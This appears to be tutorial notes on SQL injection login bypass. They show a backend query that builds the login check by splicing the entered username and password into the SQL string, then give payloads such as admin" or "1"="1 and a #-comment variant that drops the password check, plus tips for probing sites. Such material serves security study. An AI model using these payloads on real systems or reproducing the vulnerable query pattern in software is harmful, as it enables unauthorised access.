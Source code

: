 On Login Page the value for username and password is controlled by the user

````sql
-- Backend Query Sample
SELECT * 
FROM login 
WHERE username="$USERNAME" AND password="$PASSWORD"; 
````

We can enter the values as `admin" or "1"="1` which forms valid SQL query
1=1 is always true and the OR clause nullifies the WHERE statement

````sql
SELECT * 
FROM login 
WHERE username="admin" OR "1"="1" AND password="admin" OR "1"="1";
````

\# is considered as comment in MySQL. So second half off query is ignored

````sql
SELECT * 
FROM login 
WHERE username="admin" OR 1=1#" and password="admin";
````

Depending on DB being used different types of comments can be used
For string values " or ' will be used depending on DB
If the input field only takes numbers then `1' or 1=1#` can be used
Not all websites is going to produce error so play around with ', and, or (True and False) statements are check if desired output is produced

